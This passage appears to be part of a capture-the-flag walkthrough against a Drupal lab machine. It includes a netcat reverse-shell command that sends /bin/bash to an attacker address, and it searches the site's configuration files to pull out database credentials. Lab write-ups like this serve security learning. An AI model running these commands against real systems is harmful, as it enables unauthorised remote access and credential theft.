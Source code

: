 ## Gaining Access 

Attacker:
```
$ nc -lvp 1234
```

Drupal shell:
```
$ nc -nv 10.10.10.6 1234 -e /bin/bash
```

Now, with a shell we find flag1.txt in the base directory.

```
whoami
www-data
pwd
/var/www
ls | grep flag
flag1.txt
cat flag1.txt
Every good CMS needs a config file - and so do you.
```
Let's check Drupal's config files, but in a lazy/efficient way.

```
grep -rnw . -e 'flag2'
./sites/default/settings.php:5: * flag2
```
Let's check that file.

```
cat settings.php
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
...
```
Great, we found some DB credentials, `dbuser:R0ck3t`. Here's how to log into a mysql db:
```
shell> mysql --user=user_name --password db_name
           Enter password: your_password
```